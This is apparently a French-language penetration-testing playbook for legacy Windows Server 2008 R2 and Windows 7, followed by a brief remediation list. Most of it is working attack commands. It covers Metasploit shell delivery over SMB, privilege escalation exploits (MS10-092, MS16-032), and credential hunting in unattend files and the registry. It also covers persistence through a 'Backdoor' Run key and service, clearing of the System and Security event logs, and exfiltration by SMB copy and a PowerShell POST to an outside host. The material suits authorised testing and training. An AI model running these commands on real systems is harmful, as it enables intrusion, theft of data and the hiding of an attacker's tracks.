

## Exploitation de systèmes Windows legacy

Cette documentation couvre les méthodologies d'exploitation pour **Windows Server 2008 R2** et **Windows 7**.

> [!danger] Risque de crash système
> L'exécution d'exploits kernel sur des machines legacy présente un risque élevé de provoquer un écran bleu (BSOD).

> [!warning] Contraintes métier
> Les systèmes legacy hébergent souvent des applications critiques. Éviter tout scan agressif.

> [!tip] Architecture
> Vérifier l'architecture (x86 vs x64) avant toute injection. Il est nécessaire de migrer vers un processus 64 bits avant l'exécution de certains exploits.

## Comparatif de sécurité

| Fonction | 2008 R2 | 2012 R2 | 2016 | 2019 | Windows 7 | Windows 10 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Windows Defender ATP | ❌ | ❌ | ✅ | ✅ | ❌ | ✅ |
| Just Enough Administration | 🟡 | 🟡 | ✅ | ✅ | ❌ | ❌ |
| Credential Guard | ❌ | ❌ | ✅ | ✅ | ❌ | ✅ |
| Remote Credential Guard | ❌ | ❌ | ✅ | ✅ | ❌ | ✅ |
| Device Guard | ❌ | ❌ | ✅ | ✅ | ❌ | ✅ |
| AppLocker | 🟡 | ✅ | ✅ | ✅ | 🟡 | ✅ |
| Control Flow Found | ❌ | ❌ | ✅ | ✅ | ❌ | ✅ |

## Enumération des vulnérabilités

### Collecte d'informations système
```cmd
wmic qfe
systeminfo
```

### Analyse automatisée
Utilisation de **windows-exploit-suggester.py** :
```bash
systeminfo > sysinfo.txt
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database [DB_FILE] --systeminfo sysinfo.txt
```

Utilisation de **Sherlock.ps1** :
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Sherlock.ps1
Find-AllVulns
```

Utilisation de **local_exploit_suggester** dans **Metasploit** :
```bash
use post/multi/recon/local_exploit_suggester
set SESSION [ID]
run
```

## Analyse des permissions (ACLs/Tokens)
L'analyse des permissions est cruciale pour identifier les vecteurs de mouvement latéral ou d'élévation. Voir la note **Windows Enumeration**.

### Audit des ACLs sur les services
```cmd
accesschk.exe -uwcqv "Authenticated Users" *
```

### Analyse des tokens
```bash
meterpreter > getuid
meterpreter > use incognito
meterpreter > list_tokens -u
```

## Recherche de mots de passe en clair
La recherche de secrets est facilitée par la faible maturité des systèmes legacy.

### Fichiers Unattend
Recherche de fichiers de configuration d'installation automatisée :
```cmd
dir /s /b C:\Windows\Panther\unattend.xml
dir /s /b C:\Windows\Panther\autounattend.xml
```

### Registre
Extraction des identifiants stockés dans le registre (ex: services, autologon) :
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg query "HKLM\SYSTEM\CurrentControlSet\Services" /s /v ImagePath
```

## Obtention de shell

### Module smb_delivery
```bash
use exploit/windows/smb/smb_delivery
set SRVHOST [IP]
set LHOST [IP]
set LPORT 4444
set target 0
exploit
```

Exécution sur la cible :
```cmd
rundll32.exe \\[IP]\share\test.dll,0
```

## Escalade de privilèges (LPE)

### Migration de processus
```bash
meterpreter > ps
meterpreter > migrate [PID_x64]
```

### Exploitation MS10-092 (Schelevator)
```bash
use exploit/windows/local/ms10_092_schelevator
set SESSION [ID]
set LHOST [IP]
set LPORT 4443
exploit
```

### Exploitation MS16-032
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

### Matrice des exploits LPE
| Vulnérabilité | CVE | Statut |
| :--- | :--- | :--- |
| Task Scheduler .XML | CVE-2010-3338 | ✅ |
| ClientCopyImage Win32k | CVE-2015-1701 | ✅ |
| Secondary Logon Handle | CVE-2016-0099 | ✅ |
| MS16-135 | CVE-2016-7255 | ✅ |
| MS14-058 | CVE-2014-4113 | ✅ |

## Persistance
La persistance sur systèmes legacy repose souvent sur les services ou les clés Run. Voir **Local Privilege Escalation**.

### Clés Run
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\Temp\shell.exe"
```

### Création de service
```cmd
sc create Backdoor binPath= "C:\Windows\Temp\shell.exe" start= auto
sc start Backdoor
```

## Nettoyage des traces (Log clearing)
Le nettoyage doit être sélectif pour éviter de lever des alertes par absence totale de logs.

```cmd
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

## Exfiltration de données
Utilisation de protocoles standards pour sortir les données.

### Via SMB
```cmd
copy C:\Users\Admin\Desktop\secrets.txt \\[IP]\share\
```

### Via PowerShell (Base64)
```powershell
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\data.zip"))
Invoke-RestMethod -Uri "http://[IP]:8000" -Method Post -Body $data
```

## Recommandations de remédiation

*   **Isolation réseau** : Segmenter les systèmes legacy via VLAN et pare-feu.
*   **Supervision** : Renforcer la journalisation et l'utilisation d'EDR.
*   **Maintenance** : Planifier la migration vers des systèmes supportés.
*   **Support** : Souscrire à des contrats de support étendu si la migration est impossible.
*   **Durcissement** : Appliquer le principe du moindre privilège et restreindre l'UAC.

## Cheat sheet de commandes

| Objectif | Commande |
| :--- | :--- |
| Lister KBs | `wmic qfe` |
| Info système | `systeminfo` |
| Bypass exécution PS | `Set-ExecutionPolicy Bypass` |
| Vérification UID | `getuid` / `whoami` |
| Connexion RDP | `rdesktop -u [USER] -p [PASS] [IP]` |
| Migration | `migrate [PID]` |
```